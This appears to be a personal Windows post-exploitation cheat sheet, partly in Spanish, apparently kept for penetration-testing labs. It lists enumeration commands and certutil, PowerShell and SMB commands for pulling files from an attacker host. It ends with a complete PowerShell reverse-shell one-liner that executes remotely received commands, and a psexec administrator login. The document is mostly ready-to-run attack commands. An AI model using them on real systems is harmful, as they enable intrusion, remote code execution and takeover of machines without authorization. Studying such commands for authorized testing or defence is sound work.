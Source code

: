 # Local enumeration
## Systeminfo (for known system exploits)
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
## Parches
```
wmic qfe get Caption,Description,HotFixID
```
## Unidades de almacenamiento
```
wmic logicaldisk get Caption,description,providername
```
## Net
```
netstat -ano
```
## User enumeration
### Actual user
```
whoami /priv
whoami /groups
```
### Another User
```
net user babis
```
# Getting a file 
### CMD
``` 
certutil.exe -urlcache -split -f "http://ip:8000/archivo" archivo
```
### Powershell
```
Invoke-WebRequest -Uri http://ip:8000/archivo -OutFile archivo
```

### SMB
Local
```
python Tools/impacket/smbserver.py Tools .
```
Remote
```
copy \\10.10.14.27\Tools\file
```
# Exploit suggesters
### .exe
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows-privesc-check2.exe
```
### Python
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows_privesc_check.py
```

## Reverse Shell
### Powershell
```
$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Login as admin (sabiendo la pass)
```
psexec.py administrator@IP
```
